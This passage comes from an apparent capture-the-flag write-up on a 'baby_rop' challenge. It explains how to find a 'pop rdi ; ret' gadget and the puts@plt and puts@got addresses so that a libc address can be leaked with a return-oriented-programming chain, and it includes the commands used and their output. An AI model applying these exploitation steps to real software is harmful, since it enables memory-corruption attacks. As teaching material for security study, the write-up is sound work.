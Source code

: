 ![GDB-PEDA crash 2](/images/baby_rop/simple-gdb-2.png)

The 'B's can be found in the RBP register. I somehow managed to forget that when I solved the challenge yesterday and modified RBP by finding a 'pop rbp ; ret' gadget. After `someone` pointed that out, I quickly edited the post to modify RBP by using this technique.

## Leaking a LIBC Address

The first ROP chain was also covered in the first article. To recap, we are first going to call puts with puts@got as an argument and then call main again. The first thing that needs to be found is a 'pop rdi ; ret' gadget (call convention: function arguments are stored in RDI, RSI, RDX, RCX, R8, R9, etc.). I did that using [rp++](https://github.com/0vercl0k/rp):

{% highlight auto %}
$ rp-lin-x64 -f pwn_baby_rop -r 1 --unique | grep 'pop rdi ; '
0x00401663: pop rdi ; ret  ;  (1 found)
$ 
{% endhighlight %}

The next addresses we need to find are puts@plt (wich we are going to call) and puts@got (which contains the address of puts in libc). In this case, using objdump and grep will do the trick:

{% highlight auto %}
$ objdump -S pwn_baby_rop | grep -A 4 "<puts@plt>"
0000000000401060 <puts@plt>:
  401060:	f3 0f 1e fa          	endbr64 
  401064:	f2 ff 25 ad 2f 00 00 	bnd jmpq *0x2fad(%rip)        # 404018 <setvbuf@plt+0x2f98>
  40106b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)

--
  4015de:	e8 7d fa ff ff       	callq  401060 <puts@plt>
  4015e3:	b8 00 00 00 00       	mov    $0x0,%eax
  4015e8:	e8 89 fb ff ff       	callq  401176 <setvbuf@plt+0xf6>
  4015ed:	b8 00 00 00 00       	mov    $0x0,%eax
  4015f2:	c9                   	leaveq 
$
{% endhighlight %}
